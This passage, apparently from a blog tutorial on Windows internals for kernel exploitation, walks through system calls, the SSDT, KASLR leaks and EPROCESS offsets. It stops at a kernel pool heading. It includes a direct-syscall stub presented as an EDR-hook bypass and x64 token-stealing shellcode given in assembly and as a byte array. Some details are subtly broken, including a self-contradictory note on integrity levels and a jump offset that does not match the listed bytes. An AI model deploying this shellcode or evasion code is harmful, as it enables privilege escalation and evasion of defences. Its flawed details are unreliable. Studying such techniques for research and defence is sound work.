## Why Learn Windows Internals?

Before you can **exploit** the Windows kernel, you need to **understand** it. Kernel exploitation is not about memorizing exploits — it is about deeply understanding how Windows manages memory, processes, security tokens, system calls, and drivers. Once you understand the internals, vulnerabilities and exploitation techniques become logical rather than magical.

This guide will teach you the foundational concepts needed to progress into kernel exploitation research.

> This post assumes basic knowledge of C/C++, x86/x64 assembly, and general operating system concepts. If you are completely new, start with the "Operating Systems" fundamentals first.
{: .prompt-info }

---

## Windows Architecture Overview

Windows uses a **hybrid kernel** architecture that separates the operating system into two main layers: **User Mode** and **Kernel Mode**.

### The Two Rings



### Why This Matters for Exploitation

| Concept | Why It Matters |
|---------|---------------|
| **User Mode vs Kernel Mode** | Kernel exploits give you Ring 0 access — full system control |
| **System Call Interface** | Transitioning from Ring 3 to Ring 0 is where many vulnerabilities exist |
| **Kernel Drivers (.sys)** | Third-party drivers are the #1 source of kernel vulnerabilities |
| **HAL** | Understanding hardware abstraction helps with BIOS/UEFI attacks |

> In x86/x64 CPUs, **Ring 0** has full access to all instructions and memory. **Ring 3** is restricted. Kernel exploitation means getting your code to run in Ring 0.
{: .prompt-danger }

---

## User Mode vs Kernel Mode — Deep Dive

### The Privilege Boundary

```mermaid
graph LR
    subgraph "User Mode (Ring 3)"
        A[Your Application]
        B[kernel32.dll<br/>CreateFile]
        C[ntdll.dll<br/>NtCreateFile]
    end

    subgraph "Kernel Mode (Ring 0)"
        D[System Call Dispatcher<br/>KiSystemService]
        E[ntoskrnl.exe<br/>NtCreateFile]
        F[I/O Manager]
        G[File System Driver<br/>ntfs.sys]
        H[Disk Driver<br/>disk.sys]
    end

    A -->|"Win32 API Call"| B
    B -->|"Native API Call"| C
    C -->|"syscall / int 0x2e"| D
    D -->|"SSDT Lookup"| E
    E --> F
    F --> G
    G --> H

    style A fill:#3498db,stroke:#2980b9,color:#fff
    style B fill:#2980b9,stroke:#1a5276,color:#fff
    style C fill:#1a5276,stroke:#0e2f44,color:#fff
    style D fill:#e74c3c,stroke:#c0392b,color:#fff
    style E fill:#c0392b,stroke:#962d22,color:#fff
    style F fill:#962d22,stroke:#6e2018,color:#fff
    style G fill:#7d3c98,stroke:#6c3483,color:#fff
    style H fill:#e67e22,stroke:#d35400,color:#fff
```

### How a Simple File Operation Travels Through the Kernel

When you call `CreateFile()` in your program, here is exactly what happens:

**Step 1 — Your application calls `CreateFile()` (Win32 API):**

```c
// User application code
#include <windows.h>

int main() {
    HANDLE hFile = CreateFile(
        L"C:\\test.txt",      // File name
        GENERIC_READ,         // Desired access
        0,                    // Share mode
        NULL,                 // Security attributes
        OPEN_EXISTING,        // Creation disposition
        FILE_ATTRIBUTE_NORMAL,// Flags and attributes
        NULL                  // Template file
    );

    if (hFile == INVALID_HANDLE_VALUE) {
        printf("Failed to open file. Error: %d\n", GetLastError());
        return 1;
    }

    printf("File opened successfully! Handle: %p\n", hFile);
    CloseHandle(hFile);
    return 0;
}
```

**Step 2 — `kernel32.dll` translates to `ntdll.dll` Native API:**

```c
// Inside kernel32.dll (simplified)
// CreateFileW() internally calls NtCreateFile()

HANDLE WINAPI CreateFileW(...) {
    // ... parameter validation and conversion ...

    NTSTATUS status = NtCreateFile(
        &FileHandle,
        DesiredAccess,
        &ObjectAttributes,
        &IoStatusBlock,
        NULL,
        FileAttributes,
        ShareAccess,
        CreateDisposition,
        CreateOptions,
        NULL,
        0
    );

    // ... error handling and return ...
}
```

**Step 3 — `ntdll.dll` performs the system call transition:**

```nasm
; Inside ntdll.dll — NtCreateFile stub (x64)
; This is the actual transition from Ring 3 to Ring 0

NtCreateFile:
    mov     r10, rcx            ; Save first parameter
    mov     eax, 0x55           ; System call number for NtCreateFile
    syscall                     ; Transition to kernel mode!
    ret                         ; Return to user mode when done
```

**Step 4 — The kernel receives and processes the call:**

```c
// Inside ntoskrnl.exe (simplified)
// The kernel's NtCreateFile implementation

NTSTATUS NtCreateFile(
    PHANDLE FileHandle,
    ACCESS_MASK DesiredAccess,
    POBJECT_ATTRIBUTES ObjectAttributes,
    PIO_STATUS_BLOCK IoStatusBlock,
    PLARGE_INTEGER AllocationSize,
    ULONG FileAttributes,
    ULONG ShareAccess,
    ULONG CreateDisposition,
    ULONG CreateOptions,
    PVOID EaBuffer,
    ULONG EaLength
) {
    // 1. Validate all parameters (probe user-mode pointers)
    // 2. Check security (access tokens, DACLs)
    // 3. Call I/O Manager -> IopCreateFile()
    // 4. I/O Manager sends IRP to file system driver
    // 5. File system driver (ntfs.sys) processes the request
    // 6. Return result to user mode
}
```

> The **`syscall`** instruction on x64 (or **`int 0x2e`** / **`sysenter`** on x86) is the gateway between user and kernel mode. Many kernel exploits target the validation code that runs immediately after this transition.
{: .prompt-warning }

---

## The System Call Table (SSDT)

The **System Service Descriptor Table (SSDT)** is the lookup table the kernel uses to find the correct function for each system call number.

### SSDT Structure



### Viewing the SSDT in WinDbg

```text
kd> dps nt!KiServiceTable L10
fffff802`12345678  fffff802`1a2b3c4d nt!NtAccessCheck
fffff802`12345680  fffff802`1a2b3c5e nt!NtWorkerFactoryWorkerReady
fffff802`12345688  fffff802`1a2b3c6f nt!NtAcceptConnectPort
fffff802`12345690  fffff802`1a2b3c80 nt!NtMapUserPhysicalPagesScatter
...
```

### Why SSDT Matters for Exploitation

In older Windows versions, rootkits would **hook the SSDT** — replacing function pointers to intercept system calls. Modern Windows protects the SSDT with **Kernel Patch Protection (PatchGuard)**, but understanding the SSDT is still fundamental to:

- Understanding how system calls are dispatched
- Analyzing kernel attack surface
- Developing syscall-based evasion techniques (direct syscalls)

**Example — Direct syscall to bypass EDR hooks (user-mode perspective):**

```nasm
; Direct syscall stub — bypasses ntdll.dll hooks
; This avoids any EDR hooks placed on ntdll.dll functions

section .text
global NtAllocateVirtualMemory

NtAllocateVirtualMemory:
    mov r10, rcx
    mov eax, 0x18           ; Syscall number for NtAllocateVirtualMemory
    syscall                 ; Go directly to kernel — skip ntdll.dll!
    ret
```

---

## Virtual Memory & Address Space Layout

Understanding memory layout is **critical** for kernel exploitation. Every process has its own virtual address space, but the kernel space is shared.

### x64 Address Space Layout



### Key Memory Regions for Exploitation

| Region | Address Range (x64) | Contents | Exploitation Relevance |
|--------|-------------------|----------|----------------------|
| **NULL Page** | `0x00000000` | Unmapped | NULL pointer dereference exploits (blocked on modern Windows) |
| **User Code/Data** | `0x00010000 - 0x7FFFFFFF` | EXE, DLLs, heap, stack | Shellcode placement, ROP chains |
| **PEB** | Per-process | Process Environment Block | Process info, loaded modules, heap pointers |
| **TEB** | Per-thread | Thread Environment Block | Stack boundaries, exception handlers, thread info |
| **Kernel Base** | `0xFFFFF800'00000000+` | ntoskrnl.exe | KASLR bypass target |
| **Kernel Pool** | Variable | Pool allocations | Pool overflow, use-after-free, pool spraying |
| **Kernel Stacks** | Variable | Per-thread kernel stacks | Stack overflow, ROP in kernel |
| **Page Tables** | Variable | Virtual→Physical mapping | Page table manipulation exploits |

### Viewing Memory Layout with WinDbg

```text
kd> !process 0 0 notepad.exe
PROCESS ffffe00123456789
    SessionId: 1  Cid: 1234    Peb: 00000000012a0000

kd> !peb 00000000012a0000
PEB at 00000000012a0000
    ImageBaseAddress:                0x00007ff7a1230000
    Ldr.InMemoryOrderModuleList:     0x00000000012a2000
    ProcessHeap:                     0x00000000012b0000
    ProcessParameters:               0x00000000012a1000
    WindowTitle:  'notepad.exe'
    ImageFile:    'C:\Windows\System32\notepad.exe'

kd> lm
start             end                 module name
00007ff7`a1230000 00007ff7`a1260000   notepad
00007ffa`b1230000 00007ffa`b1420000   ntdll
00007ffa`af230000 00007ffa`af2f0000   KERNEL32
fffff802`0a000000 fffff802`0ac00000   nt         (ntoskrnl.exe)
fffff802`0b000000 fffff802`0b070000   hal
```

---

## KASLR — Kernel Address Space Layout Randomization

**KASLR** randomizes the base address of the kernel and drivers at each boot, making it harder to predict where kernel code and data structures live in memory.

### Without KASLR vs With KASLR



### KASLR Bypass Techniques

To exploit the kernel, you often need to know where `ntoskrnl.exe` is loaded. Here are common bypass methods:

**Method 1 — `NtQuerySystemInformation` (Low-privilege leak):**

```c
#include <windows.h>
#include <stdio.h>

// Structure for SystemModuleInformation
typedef struct _RTL_PROCESS_MODULE_INFORMATION {
    HANDLE Section;
    PVOID MappedBase;
    PVOID ImageBase;          // <-- Kernel base address!
    ULONG ImageSize;
    ULONG Flags;
    USHORT LoadOrderIndex;
    USHORT InitOrderIndex;
    USHORT LoadCount;
    USHORT OffsetToFileName;
    UCHAR FullPathName[256];
} RTL_PROCESS_MODULE_INFORMATION, *PRTL_PROCESS_MODULE_INFORMATION;

typedef struct _RTL_PROCESS_MODULES {
    ULONG NumberOfModules;
    RTL_PROCESS_MODULE_INFORMATION Modules[1];
} RTL_PROCESS_MODULES, *PRTL_PROCESS_MODULES;

// NtQuerySystemInformation function pointer
typedef NTSTATUS(WINAPI* pNtQuerySystemInformation)(
    ULONG SystemInformationClass,
    PVOID SystemInformation,
    ULONG SystemInformationLength,
    PULONG ReturnLength
);

#define SystemModuleInformation 11

int main() {
    HMODULE hNtdll = GetModuleHandleA("ntdll.dll");
    pNtQuerySystemInformation NtQuerySystemInformation =
        (pNtQuerySystemInformation)GetProcAddress(hNtdll, "NtQuerySystemInformation");

    ULONG length = 0;
    NtQuerySystemInformation(SystemModuleInformation, NULL, 0, &length);

    PRTL_PROCESS_MODULES modules = (PRTL_PROCESS_MODULES)malloc(length);
    NTSTATUS status = NtQuerySystemInformation(
        SystemModuleInformation,
        modules,
        length,
        &length
    );

    if (status == 0) {
        printf("[+] Number of kernel modules: %u\n\n", modules->NumberOfModules);

        for (ULONG i = 0; i < modules->NumberOfModules && i < 10; i++) {
            printf("  Module: %s\n", modules->Modules[i].FullPathName + modules->Modules[i].OffsetToFileName);
            printf("  Base:   0x%p\n", modules->Modules[i].ImageBase);
            printf("  Size:   0x%X\n\n", modules->Modules[i].ImageSize);
        }

        printf("[+] Kernel base (ntoskrnl.exe): 0x%p\n", modules->Modules[0].ImageBase);
    }

    free(modules);
    return 0;
}
```

**Example Output:**

```text
[+] Number of kernel modules: 187

  Module: ntoskrnl.exe
  Base:   0xFFFFF8000A200000
  Size:   0xA73000

  Module: hal.dll
  Base:   0xFFFFF8000AC80000
  Size:   0x78000

  Module: kd.dll
  Base:   0xFFFFF8000ACF8000
  Size:   0x18000

[+] Kernel base (ntoskrnl.exe): 0xFFFFF8000A200000
```

**Method 2 — Using `EnumDeviceDrivers()` (Simpler API):**

```c
#include <windows.h>
#include <psapi.h>
#include <stdio.h>

#pragma comment(lib, "psapi.lib")

int main() {
    LPVOID drivers[1024];
    DWORD cbNeeded;

    if (EnumDeviceDrivers(drivers, sizeof(drivers), &cbNeeded)) {
        // First entry is always ntoskrnl.exe
        printf("[+] Kernel Base Address: 0x%p\n", drivers[0]);

        // Get the name to confirm
        char name[MAX_PATH];
        GetDeviceDriverBaseNameA(drivers[0], name, sizeof(name));
        printf("[+] Module Name: %s\n", name);

        // Print a few more kernel modules
        int count = cbNeeded / sizeof(LPVOID);
        printf("[+] Total kernel modules: %d\n\n", count);

        for (int i = 0; i < count && i < 10; i++) {
            GetDeviceDriverBaseNameA(drivers[i], name, sizeof(name));
            printf("  [%d] 0x%p - %s\n", i, drivers[i], name);
        }
    }

    return 0;
}
```

> Starting with **Windows 10 version 1803**, Microsoft restricted `NtQuerySystemInformation` with `SystemModuleInformation` for medium integrity processes. You now need **medium integrity or higher** to leak kernel addresses. This was a significant KASLR hardening step.
{: .prompt-warning }

---

## Processes and the EPROCESS Structure

Every running process in Windows is represented by an **`EPROCESS`** structure in kernel memory. Understanding this structure is essential because many kernel exploits manipulate it directly.

### EPROCESS Overview



### The ActiveProcessLinks — How Processes Are Connected



### Exploring EPROCESS in WinDbg

```text
kd> !process 0 0 System
PROCESS ffffe001234abcd0
    SessionId: none  Cid: 0004    Peb: 00000000
    ParentCid: 0000
    DirBase: 001aa002  ObjectTable: ffffc000a1234560
    HandleCount: 2145
    Image: System

kd> dt nt!_EPROCESS ffffe001234abcd0
   +0x000 Pcb              : _KPROCESS
   +0x2e0 ProcessLock      : _EX_PUSH_LOCK
   +0x2e8 UniqueProcessId  : 0x00000004 Void
   +0x2f0 ActiveProcessLinks : _LIST_ENTRY [ 0xffffe001`23567890 - 0xffffe001`23890abc ]
   +0x358 Token            : _EX_FAST_REF
   +0x3e8 ImageFileName    : [15]  "System"
   +0x440 ThreadListHead   : _LIST_ENTRY
   +0x4b8 SecurityPort     : (null)
   +0x570 Peb              : (null)

kd> dt nt!_EPROCESS ffffe001234abcd0 UniqueProcessId ImageFileName Token
   +0x2e8 UniqueProcessId : 0x00000004 Void
   +0x358 Token           : _EX_FAST_REF
   +0x3e8 ImageFileName   : [15]  "System"
```

### Finding EPROCESS Offsets Programmatically

The offsets change between Windows versions. Here is how to find them dynamically:

```c
#include <windows.h>
#include <stdio.h>

/*
 * EPROCESS offset table for common Windows versions
 * These offsets are for x64 systems
 */

typedef struct _EPROCESS_OFFSETS {
    char* version;
    ULONG UniqueProcessId;
    ULONG ActiveProcessLinks;
    ULONG Token;
    ULONG ImageFileName;
} EPROCESS_OFFSETS;

EPROCESS_OFFSETS offsets[] = {
    // Version              PID     APL     Token   ImageFileName
    { "Windows 7 SP1",     0x180,  0x188,  0x208,  0x2E0 },
    { "Windows 8.1",       0x2E0,  0x2E8,  0x348,  0x438 },
    { "Windows 10 1607",   0x2E8,  0x2F0,  0x358,  0x450 },
    { "Windows 10 1803",   0x2E0,  0x2E8,  0x358,  0x450 },
    { "Windows 10 1903",   0x2E8,  0x2F0,  0x360,  0x450 },
    { "Windows 10 2004",   0x440,  0x448,  0x4B8,  0x5A8 },
    { "Windows 10 21H2",   0x440,  0x448,  0x4B8,  0x5A8 },
    { "Windows 11 22H2",   0x440,  0x448,  0x4B8,  0x5A8 },
};

void print_offsets() {
    printf("%-20s  %-8s  %-8s  %-8s  %-8s\n",
        "Version", "PID", "APL", "Token", "ImageName");
    printf("%-20s  %-8s  %-8s  %-8s  %-8s\n",
        "-------", "---", "---", "-----", "---------");

    for (int i = 0; i < sizeof(offsets) / sizeof(offsets[0]); i++) {
        printf("%-20s  0x%-6X  0x%-6X  0x%-6X  0x%-6X\n",
            offsets[i].version,
            offsets[i].UniqueProcessId,
            offsets[i].ActiveProcessLinks,
            offsets[i].Token,
            offsets[i].ImageFileName);
    }
}

int main() {
    print_offsets();
    return 0;
}
```

**Output:**

```text
Version               PID       APL       Token     ImageName
-------               ---       ---       -----     ---------
Windows 7 SP1         0x180     0x188     0x208     0x2E0
Windows 8.1           0x2E0     0x2E8     0x348     0x438
Windows 10 1607       0x2E8     0x2F0     0x358     0x450
Windows 10 1803       0x2E0     0x2E8     0x358     0x450
Windows 10 1903       0x2E8     0x2F0     0x360     0x450
Windows 10 2004       0x440     0x448     0x4B8     0x5A8
Windows 10 21H2       0x440     0x448     0x4B8     0x5A8
Windows 11 22H2       0x440     0x448     0x4B8     0x5A8
```

---

## Access Tokens — The Crown Jewel

The **access token** is the most important data structure for privilege escalation. It defines what a process is allowed to do. **Stealing or modifying a token is the #1 goal of most kernel exploits.**

### Token Structure



### Normal User Token vs SYSTEM Token

```text
Normal User Token:                    SYSTEM Token:
─────────────────                    ─────────────
User: DESKTOP\john                   User: NT AUTHORITY\SYSTEM
SID:  S-1-5-21-...-1001             SID:  S-1-5-18
                                     
Groups:                              Groups:
  - Users                             - SYSTEM
  - Everyone                          - Administrators
  - Authenticated Users                - Everyone
                                       - Authenticated Users

Privileges:                          Privileges:
  - SeChangeNotifyPrivilege            - SeDebugPrivilege ✓
  - SeShutdownPrivilege                - SeLoadDriverPrivilege ✓
  - SeUndockPrivilege                  - SeTcbPrivilege ✓
  (very limited)                       - SeAssignPrimaryTokenPrivilege ✓
                                       - SeBackupPrivilege ✓
Integrity Level:                       - SeRestorePrivilege ✓
  Medium (S-1-16-8192)                - SeImpersonatePrivilege ✓
                                       - (ALL privileges)

                                     Integrity Level:
                                       System (S-1-16-16384)
```

### Token Stealing — The Classic Kernel Exploit Technique

The most common kernel exploit primitive is **token stealing** — replacing a low-privilege process's token pointer with the SYSTEM process's token.



### Token Stealing Shellcode (x64)

This is the classic kernel-mode shellcode used in Windows kernel exploits:

```nasm
; Token Stealing Shellcode — x64 Windows 10 21H2
; This code runs in Ring 0 (kernel mode)
;
; Strategy:
;   1. Find current process (EPROCESS) via KTHREAD → KPROCESS
;   2. Walk ActiveProcessLinks to find System process (PID 4)
;   3. Copy System's token to current process
;   4. Return cleanly

[BITS 64]

token_stealing:
    ; Step 1: Get current thread's KTHREAD from GS segment
    ; On x64, GS:[0x188] points to current KTHREAD
    mov rax, [gs:0x188]         ; rax = current KTHREAD (_KPCR.PrcbData.CurrentThread)

    ; Step 2: Get current process's EPROCESS from KTHREAD
    ; KTHREAD.ApcState.Process is at offset 0x220 (Win10 21H2)
    mov rax, [rax + 0x220]      ; rax = current EPROCESS (KTHREAD.ApcState.Process)
    mov rcx, rax                ; rcx = save current EPROCESS for later

    ; Step 3: Walk the ActiveProcessLinks to find System (PID 4)
    ; EPROCESS.ActiveProcessLinks is at offset 0x448
    ; EPROCESS.UniqueProcessId is at offset 0x440
find_system:
    mov rax, [rax + 0x448]      ; rax = next EPROCESS.ActiveProcessLinks.Flink
    sub rax, 0x448              ; rax = start of next EPROCESS (subtract offset)
    cmp qword [rax + 0x440], 4  ; Compare UniqueProcessId with 4 (System PID)
    jne find_system             ; If not System, keep walking

    ; Step 4: Found System process! Copy its token to current process
    ; EPROCESS.Token is at offset 0x4B8
    mov rdx, [rax + 0x4B8]     ; rdx = System process Token
    mov [rcx + 0x4B8], rdx     ; Overwrite current process Token with System Token

    ; Step 5: Return cleanly
    ; The exact return depends on the vulnerability being exploited
    ; (stack pivot, IRETQ, etc.)
    xor rax, rax                ; STATUS_SUCCESS (NTSTATUS = 0)
    ret
```

**The same shellcode in C-style byte array:**

```c
/*
 * Token Stealing Shellcode — x64 Windows 10 21H2
 * Offsets: UniqueProcessId=0x440, ActiveProcessLinks=0x448, Token=0x4B8
 */

unsigned char token_steal_shellcode[] = {
    0x65, 0x48, 0x8B, 0x04, 0x25, 0x88, 0x01, 0x00, 0x00, // mov rax, [gs:0x188]
    0x48, 0x8B, 0x80, 0x20, 0x02, 0x00, 0x00,             // mov rax, [rax+0x220]
    0x48, 0x89, 0xC1,                                       // mov rcx, rax
    // find_system:
    0x48, 0x8B, 0x80, 0x48, 0x04, 0x00, 0x00,             // mov rax, [rax+0x448]
    0x48, 0x2D, 0x48, 0x04, 0x00, 0x00,                   // sub rax, 0x448
    0x48, 0x83, 0xB8, 0x40, 0x04, 0x00, 0x00, 0x04,       // cmp qword [rax+0x440], 4
    0x75, 0xEA,                                             // jne find_system
    0x48, 0x8B, 0x90, 0xB8, 0x04, 0x00, 0x00,             // mov rdx, [rax+0x4B8]
    0x48, 0x89, 0x91, 0xB8, 0x04, 0x00, 0x00,             // mov [rcx+0x4B8], rdx
    0x48, 0x31, 0xC0,                                       // xor rax, rax
    0xC3                                                     // ret
};

// Size of shellcode
size_t shellcode_size = sizeof(token_steal_shellcode);
```

> **Token stealing is the "Hello World" of kernel exploitation.** Almost every kernel privilege escalation exploit uses some variation of this technique to elevate from a normal user to SYSTEM.
{: .prompt-tip }

---

## Kernel Pool Memory

